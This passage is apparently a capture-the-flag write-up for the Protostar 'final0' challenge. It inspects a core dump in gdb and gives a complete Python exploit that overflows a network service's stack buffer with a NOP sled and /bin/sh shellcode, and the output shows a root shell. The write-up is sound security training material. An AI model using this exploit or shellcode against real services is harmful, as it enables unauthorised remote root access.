 And debug the `core dump` by running (in my case):

```
gdb /opt/protostar/bin/final0 /tmp/core.11.final0.9654
```

By exploring the stack we can see find a reasonable address to jump to.

```
(gdb) x/20x $esp-550
0xbffffa3a:	0x07300000	0xc8940000	0x6910b7e9	0x41410d69
0xbffffa4a:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffa5a:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffa6a:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffa7a:	0x41414141	0x41414141	0x41414141	0x41414141

(gdb) x/20x $esp-50
0xbffffc2e:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc3e:	0x41414141	0x41414141	0x00004141	0x02000000
0xbffffc4e:	0x42420000	0x42424242	0x42424242	0x42424242
0xbffffc5e:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffffc6e:	0x42424242	0x42424242	0x42424242	0x42424242
```

So our `buffer` starts around `0xbffffa4a` and finishes around `0xbffffc3e`, we can try to jump in the middle and put there a bunch of `\x90`.

```
hex((0xbffffa4a + 0xbffffc3e)  / 2) -> 0xbffffb44
```

`exploit.py`

```python
#!/usr/bin/env python

import socket
import struct

HOST = "127.0.0.1"
PORT = 2995

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

shellcode =  "\x31\xc0\x50\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89"
shellcode += "\xe3\x89\xc1\x89\xc2\xb0\x0b"
shellcode += "\xcd\x80\x31\xc0\x40\xcd\x80"
# shellcode length -> 28 bytes

address = struct.pack("I",0xbffffb44)
buffer = "\x00\x00\x00\x00" + "\x90" * (512 - 4 - len(shellcode)) + shellcode + "AAAA" + "BBBB" + "CCCC" + "DDDD" + "EEEE"  + address
s.send(buffer + "\n")
s.send("id\n")
s.send("uname -a\n")

msg = s.recv(1024)

print "resp:", msg
```

```
root@protostar:/home/user# python exploit_final0.py 
resp: uid=0(root) gid=0(root) groups=0(root)
```

